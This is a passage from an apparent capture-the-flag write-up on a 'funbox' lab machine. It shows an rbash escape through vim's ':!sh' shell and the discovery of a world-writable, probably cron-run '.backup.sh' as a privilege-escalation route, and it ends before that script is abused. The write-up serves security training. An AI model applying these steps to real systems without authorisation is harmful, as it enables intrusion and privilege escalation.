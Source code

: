 > And they do! We got a shell.
{: .prompt-info }

---
# post exploitation
## `rbash` escape
Trying to change the directory shows that we are in a restricted bash.
```bash
joe@funbox:~$ cd ..
-rbash: cd: restricted
```

Escape the restriction.  
We are able to execute `vim`. This is is an easy one.
```bash
joe@funbox:~$ vim
:!sh
$ id
uid=1001(joe) gid=1001(joe) groups=1001(joe)
$ cd ..
$ pwd
/home
```

> We escaped.
{: .prompt-info }

## privilege escalation
After we escaped the `rbash` we can have a look what other users exist on the system
```bash
joe@funbox:/home$ ls
funny  joe
```

There is a user named `funny`.
```bash
joe@funbox:/home/funny$ ls -lsah
total 47M
4.0K drwxr-xr-x 3 funny funny 4.0K Aug 21  2020 .
4.0K drwxr-xr-x 4 root  root  4.0K Jun 19  2020 ..
4.0K -rwxrwxrwx 1 funny funny   64 Aug 22 08:10 .backup.sh
   0 lrwxrwxrwx 1 funny funny    9 Aug 21  2020 .bash_history -> /dev/null
4.0K -rw-r--r-- 1 funny funny  220 Feb 25  2020 .bash_logout
4.0K -rw-r--r-- 1 funny funny 3.7K Feb 25  2020 .bashrc
4.0K drwx------ 2 funny funny 4.0K Jun 19  2020 .cache
 47M -rw-rw-r-- 1 funny funny  47M Aug 22 08:10 html.tar
4.0K -rw-r--r-- 1 funny funny  807 Feb 25  2020 .profile
4.0K -rw-rw-r-- 1 funny funny  162 Jun 19  2020 .reminder.sh
```

> There is a file named `.backup.sh` which indicates that this file is executed regularly (probably by a cronjob). And we are able to change the content of the file as we have write permissions.
{: .prompt-info }
